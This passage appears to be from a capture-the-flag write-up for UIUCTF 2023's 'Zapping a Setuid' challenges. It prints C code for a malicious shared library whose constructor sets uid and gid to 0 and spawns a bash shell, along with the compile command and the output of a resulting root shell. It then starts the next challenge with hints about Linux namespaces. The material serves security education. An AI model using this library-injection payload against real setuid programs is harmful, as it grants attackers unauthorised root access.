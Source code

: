 I then created a new `lib.so` using the following C code:

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static __attribute__((constructor)) void static_constructor(void) {
    // Set effective user id of the process to root
    setuid(0);
    perror("setuid");
    // Set effective group id of the process to root
    setgid(0);
    perror("setgid");
    // Spawn a shell
    execlp("/bin/bash", "bash", "-l", NULL);
}

void foo(void) {
    printf("foo invoked\n");
}
```

Compile it with:

```
uiuctf-2023:~$ cc -o lib.so x.c -fPIC -shared
```

Now we run the `exe` with our new `lib.so`:

```
uiuctf-2023:~$ ./exe
setuid: Success
setgid: Success
uiuctf-2023:~# id
uid=0(root) gid=0(root) groups=0(root),1000(user)
uiuctf-2023:~# cat /mnt/flag
uiuctf{did-you-see-why-its-in-usr-lib-now-0cd5fb56}
```

## Zapping a Setuid 2

> Ok ok ok, but what if there was another way?

Hint 1:

> The "zapps" symlink is for accessibility. The intended solution does not depend on the symlink.

Hint 2:

> The additional patches to this challenge are hints.

To understand this challenge, first we need to know about [Linux namespaces](https://man7.org/linux/man-pages/man7/namespaces.7.html).
For a quick explanation, namespaces are used to create isolated environment.
Processes inside a namespace can only see and use resources inside that namespace.
One use of namespaces is to implement containers.

